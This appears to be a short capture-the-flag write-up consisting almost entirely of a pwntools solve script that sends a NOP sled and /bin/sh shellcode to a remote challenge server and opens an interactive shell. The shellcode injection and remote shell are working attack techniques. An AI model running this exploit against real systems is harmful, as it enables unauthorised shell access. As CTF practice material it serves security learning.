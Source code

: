 ![desc](/images/shell_desc.png)

Solve script - 
```python
from pwn import *

context(arch='i386', os='linux', endian='little', word_size=32)

#io = process('./vuln')  # Replace with the actual binary name
io = remote('34.125.199.248', 1234)
shellcode = asm(shellcraft.sh())

buffer_size = 512  
nop_sled = b'\x90' * (buffer_size - len(shellcode))

payload = nop_sled + shellcode

io.recvuntil("Enter your shellcode:")
io.sendline(payload)  # Send the payload

io.interactive()
```